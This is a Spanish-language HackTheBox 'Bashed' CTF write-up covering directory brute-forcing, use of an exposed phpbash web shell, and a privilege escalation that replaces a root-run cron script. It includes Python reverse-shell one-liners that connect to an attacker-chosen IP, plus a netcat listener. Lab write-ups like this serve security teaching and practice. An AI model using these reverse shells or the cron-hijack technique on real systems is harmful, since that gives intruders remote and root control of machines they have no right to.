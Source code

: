 ```yaml
---
title: HackTheBox Bashed
date: 2021-06-13 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/banner.png 
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [cronjobs, scripts, python, suid, apache]
---
```


***

**Machine IP**: 10.10.10.68

**DATE**  : 13/06/2021

***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/nmap.png)

Como vemos solo el puerto 80 está abierto, así que investigaremos en la web para ver si encontramos algo interesante

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/web.png)

En la web no encontré nada :,c, pero `phpbash` me da una pista.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/phpbash.png)

Como vemos es un frontend normal,pero el nombre `php bash` es algo sospechoso  al parecer no muestra directorios, por eso le hacemos un `brute force` para enumerar los directorios con `gobuster`.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200                                                               1 ⨯ 2 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 03:44:34 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]   
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]   
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

Como vemos nos arroja muchos directorios, examinando cada uno de ellos pude encontrar algo interesante en /dev, dos archivos con el nombre de la pagina en si phpbash

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/indexweb.png)


Al abrir el segundo archivo nos carga una shell con el usuario `www-data` , buscamos el archivo user.txt con el siguiente comando

```bash
find / -type f -name "user.txt" 2>/dev/null
```

y bingo, lo encontramos, ahora a tratar de obtener una shell interactiva para poner comandos basicos.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/wwwdata.png)
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/usertxt.png)

Primero intentaremos ver si hay algunos binarios con permisos `SUID` para ejecutarlos con permisos root, para eso usamos en comando:

```bash
sudo -l
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/sudol.png)

Vemos que el usuario `Scriptmanager` puede ejecutar cualquier comando en su sesion, entonces vamos a invocar una shell en nuestra maquina con `netcat`, por el lado de nuestra maquina usariamos el comando 

```bash
nc -nlvp 4448
```

Y por el lado de la phpbash, ejecutamos el siguiente comando para establecer una `shell reversa` con python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("nuestraip",4448));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
```

Y así quedaria nuestra shell, luego nos logeamos como `scriptmanager` con una shell bash con el comando

```bash
sudo -u scriptmanager /bin/bash
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/accesscript.png)

Luego hacemos el tratamiento de la tty para que nuestra shell sea interactiva con los siguientes comandos

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen-256color 
\[Ctrl Z\] 
stty raw -echo 
fg 
\[INTRO\] 
export TERM=screen
```

## Escalamiento de privilegios a root

Haremos un ls al directorio raiz y encontramos un directorio llamado scripts con solo permiso para scriptmanager, entramos para ver que archivos o directorios interesantes tiene.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/privilegesscript.png)

Como vemos hay un archivo `test.py` que pertenece al nuestro usuario y un txt que pertenece a root , cuando nos encontramos con estas situaciones, debemos considerar que una opción es que hay tareas `cron` o automáticas que se realizan cada cierto tiempo, por eso en esta caso el script está siendo ejecutado como root, ya que el archivo que está escribiendo es propiedad de `root`, también al revisar que la fecha de creación del archivo va cambiando, podemos afirmar que cada minuto se actualiza el `test.txt`.

Entonces tenemos que buscar que el archivo test.py contenga código malicioso para que cuando se ejecute podamos establecer una `shell reversa` en nuestra maquina con root.

Abriendo un servidor web para pasar mi archivo test.py con el siguiente código, que es el mismo que utilizamos para invocar la shell reversa, pero sin las comillas y el python -c , ya que todo irá dentro del archivo.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tuip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Luego de descargar nuestro archivo, pondremos en escucha nuestra máquina con el puerto al cual asignamos en el `test.py` y obtendremos la shell como `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/bashed/roottxt.png)

!Bingo, obtenemos sesión como `root` y podemos leer el `root.txt`

Gracias por leer.

